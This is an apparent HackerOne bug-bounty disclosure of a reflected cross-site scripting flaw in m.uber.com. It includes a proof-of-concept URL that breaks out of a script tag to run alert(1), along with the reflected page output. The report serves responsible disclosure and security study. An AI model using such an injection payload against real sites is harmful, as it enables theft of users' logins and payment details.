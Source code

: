 # SSL-protected Reflected XSS in m.uber.com

## Report Details
- **Report ID**: 296701
- **URL**: https://hackerone.com/reports/296701
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-12-10T18:06:43.055Z
- **Disclosed**: 2017-12-26T11:03:42.453Z

## Reporter
- **Username**: gregoryvperry
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
## Summary
m.uber.com is susceptible to reflected XSS

## Security Impact
A malformed URL can be used to render arbitrary SSL-protected web pages from m.uber.com

## Reproduction Steps
https://m.uber.com/?bjbxm%3c%2fscript%3e%3cscript%3ealert(1)%3c%2fscript%3exrii5=1

## Specifics
From the rendered web page:
```
{"enabled":true,"sid":"bbc661585c424072","url":"www.cdn-net.com","cf":1022963},"queryParams":{"bjbxm</script><script>alert(1)</script>xrii5":"1"}
```
No further efforts were made to render a more believable webpage as the vulnerability and reflected code above is sufficient to trigger Chromium Browser's XSS _Auditor protections.

## Impact

An attacker could render arbitrary SSL-protected web pages from m.uber.com, to capture user login credentials and passwords, credit card numbers and related payment information, etc.

## Attachments
No attachments
